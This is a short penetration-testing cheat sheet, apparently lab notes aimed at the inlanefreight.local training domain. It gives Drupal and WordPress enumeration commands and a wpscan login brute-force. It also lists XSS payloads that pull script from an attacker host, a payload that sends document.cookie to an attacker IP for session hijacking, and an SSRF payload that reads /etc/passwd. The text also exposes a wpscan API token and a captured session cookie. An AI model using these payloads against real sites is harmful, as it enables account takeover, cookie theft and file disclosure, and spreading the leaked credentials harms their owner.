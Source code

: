 # Drupal
```
curl -s http://blog.inlanefreight.local | grep Drupal
```
### Droopscan
```
droopescan scan drupal -u http://blog.inlanefreight.local/
```
# Word Press
```
wpscan --url http://ir.inlanefreight.local/ --api-token 51vO4v72sy7CxiqSaaIMsSH6V6SHKlPNmrmg7vcydB8 -e ap -t 500 -t 64
```
```
wpscan --url http://ir.inlanefreight.local/ --api-token 51vO4v72sy7CxiqSaaIMsSH6V6SHKlPNmrmg7vcydB8 -e at,ap --plugins-detection mixed -t 64
```
### WP User
```
wpscan -e u -t 500 --url http://ir.inlanefreight.local
```
### WP User Login Bruteforce
```
wpscan --url http://ir.inlanefreight.local -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top1000.txt -U ilfreightwp
```
# XXS
### Sesson HiJacking
```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
for cookie
```
"><script>new Image().src='http://10.10.14.3/index.php?c='+document.cookie</script>
```
Then add the cookie to the cookie plugin

```
session
fcfaf93ab169bc943b92109f0a845d99
```
# SSRF
https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
Look at exploiting PDF file

### Payload
```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
  ```
  
